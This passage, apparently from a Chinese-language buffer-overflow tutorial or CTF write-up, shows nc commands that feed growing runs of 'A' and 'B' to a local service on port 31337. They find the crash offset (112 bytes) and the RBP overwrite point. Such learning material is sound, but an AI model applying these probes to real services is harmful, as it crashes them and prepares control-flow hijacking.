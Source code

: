 #### 3.4 验证

112 个 A 程序正常运行

```plain
echo $(python2 -c 'print "A" * 112') | nc localhost 31337
```

[![](assets/1703831476-369d1018607a4d7947af1e20edc41773.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224812-f53dd672-a4c6-1.png)

112 个 A + 1 个 B。程序崩溃

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 1') | nc localhost 31337
```

[![](assets/1703831476-1a3df7f23740cc9f79cdec94c8e9c597.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224818-f9377580-a4c6-1.png)

112 个 A+8 个 B。填充满 RBP 需要 +8 个字符

```plain
echo $(python2 -c 'print "A" * 112 + "B" * 8') | nc localhost 31337
```

[![](assets/1703831476-5c02b3922893a6354c0c2f46aaffbf4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224825-fd6db182-a4c6-1.png)
